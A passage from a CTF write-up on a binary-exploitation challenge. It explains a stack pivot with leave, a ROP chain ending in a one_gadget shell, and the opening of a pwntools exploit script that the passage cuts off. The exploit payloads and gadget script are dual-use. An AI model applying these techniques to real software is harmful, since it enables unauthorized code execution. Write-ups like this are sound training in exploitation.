 The leave instruction moves the stack pointer to the base pointer meaning rsp gets set to 0x404138 like I want. But the pop rbp will pop whatever rsp points to into rbp. In my case, this is the pop rdi ; ret gadget. So leave will pop that address into rbp and start executing my ropchain from the 0x00000000 address right after it. This is actually an easy fix. Just put an address after the 0x40 'A's to set rbp. This needs to be a writable section because the one_gadget requires that rbp-0x38 is wirtable so I just set it to 0x404200.

```python
payload2 = b'A' * 0x40
payload2 += p64(0x404200)
payload2 += pop_rdi
payload2 += p64(0x0)
payload2 += pop_r13
payload2 += p64(0x0)
payload2 += one_gadget
```

Now this pops a shell and I can just get the flag.

<img src="./Images/shell_popped.jpg" alt="popping a shell" style="display:block; margin:auto;">

I really enjoyed this challenge mostly because I like thinking of different ways to pivot the stack and it made me think outside the box. I'm also not too familiar with FSOP so I'm not too sure how others did this challenge with FSOP but I would think that it is more complicated than this solution.

## Full Exploit Code

```python
# cp ./chall ./chall_patched
# patchelf ./chall_patched --set-interpreter ./path/to/ld/file

from pwn import *

context.clear(arch='amd64', terminal=['tmux', 'splitw', '-fh'], aslr=True)

elf = ELF('./chall_patched')
libc = ELF('./libc.so.6')

# minecraft gadgets
nop_ret = p64(0x4010ef)
pop_rbp_ret = p64(0x40115d)
main = p64(elf.sym['main'])
read_int = p64(elf.sym['read_int'])
data_section = p64(0x404100 + 0x38)     # add 0x38 bc we will overwrite rbp later wil a writable section for one gadget

p = process('./chall_patched', env={"LD_PRELOAD" : "./libc.so.6"})
#p = remote('chall.lac.tf', 31137)

```